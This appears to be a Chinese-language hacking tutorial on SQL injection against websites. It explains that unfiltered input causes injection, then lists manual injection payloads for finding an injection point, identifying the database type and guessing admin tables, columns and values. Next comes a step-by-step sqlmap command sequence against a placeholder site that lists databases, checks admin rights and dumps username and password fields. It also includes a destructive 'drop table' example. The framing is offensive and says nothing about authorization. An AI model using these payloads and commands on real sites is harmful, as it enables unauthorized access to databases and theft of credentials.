 
![](https://image.3001.net/images/20181114/15421266345186.png!420.280)


假如玩sql注入比较早的话，你会用过阿d，挖掘机...

但是最后还是sqlmap好用，搞网站突然Easy的很

- 存在注入的原因是因为后台在编写程序时，没有对用户输入的数据做过滤导致的，正如事实上，不是所有的用户都是友好的
　　比如：用户在某个输入框提交的参数是 2，浏览器提交的URL为: http:// www.XXX.com/index.php?id=2 服务器后台执行SQL语句： select * from table1 where id = 2;返回Response，浏览器解析返回的页面，然后你就看到新的页面了，如果邪恶的用户提交的参数是 2;drop table1
服务器后台执行SQL语句： select * from table1 where id =2 ; drop table1
相当于后台执行了两条SQL语句，查表，并且把table1删除 - -
从而导致了SQL注入。按照这个思路，现在写一下手工注入的一般步骤：
    - 判断是否存在注入点（数字型注入）
　　　　www.XXX.com/index.php?id=2‘--
　　　　www.XXX.com/index.php?id=2 and 1=1  --
　　　　www.XXX.com/index.php?id=2 and 1=2 --
　　　　第2条返回正常，第1，3条返回不正常说明id参数存在注入漏洞

    - 判断数据库类型

        可以根据不同数据库特有的表，或者根据不同数据库的语法不同进行判断

        www.XXX.com/index.php?id=2 and exists(select * from sysobjects) --      返回正常是SQLServer 数据库

        www.XXX.com/index.php?id=2 and exists(select * from msysobjects) --     返回正常是Access 数据库

        www.XXX.com/index.php?id=2 and len('a') = 1 --　　返回正常是SQLServer或者MySQL

        www.XXX.com/index.php?id=2 and substring('abc','1','1') = a --　　返回正常是SQLServer

        www.XXX.com/index.php?id=2 and subStr('abc','1','1')= a --　　返回正常是Oracle

        知道是哪种类型数据库后就可以选择对应语法构造SQL语句进行攻击
    - 判定是否存在admin表

        www.XXX.com/index.php?id=2 and exists(select * from admin) --  返回正常 存在admin表

    - 猜admin表中的字段名

        www.XXX.com/index.php?id=2 and exists(select username from admin) --  返回正常 表示admin表存在username字段

    - 猜字段值

　　　　 www.XXX.com/index.php?id=2 and exists(select * from admin where id =1 and asc(mid(username,1,1))) < 100 -- 返回正常说明username中有ascii码小于100的字母，然后根据折半发准确判断是哪一个字符


- 注入方式


 1. sqlmap.py -u "http://www.XXX.com/index.asp?id=1"

　　　　判断id参数是否存在注入：结果中包含 “id” is Vulnerable  字段表示存在注入

　　　　存在注入，下面的步骤才可以执行成功~

　　2. sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --dbs

　　　　列举能列出的所有数据库名

　　3. sqlmap.py -u "http://www.XXX.com/index.asp?id=1" --current-db

　　　　列出当前使用的数据库名，假设列出“sqltest”数据库　　

　　4. sqlmap.py -u "http://www.XXX.com/index.asp?id=1"  --is-dba

　　　　判断该注入点是否有管理员权限：返回true  表示是管理员

　　5. sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" --tables

　　　　获取sqltest中的所有表，假设有"admin"表

　　6. sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" --columns

　　　　列举表admin的字段（列名），假设存在"username","password"字段

　　7. sqlmap.py -u "http://www.XXX.com/index.asp?id=1" -D "sqltest" -T "admin" -C "username,password" --dump

　　　　下载字段username，password的值，若询问是否破解md5加密，选择no即可

至此，对一个简单的注入点（GET方式），现在就已经得到了我们想要的数据

想看工具的注入过程 使用-v参数

-level 会提高注入等级（默认0 只会判断get，post参数是否有注入点）

若注入点是POST方式，或是注入点才Cookie，User-Agent中，可以利用-Date 参数 -Cookie参数指定

当然用buip Suite架个代理，截取数据包，直接 -r 参数引入数据包也可以完成上述的注入情况的~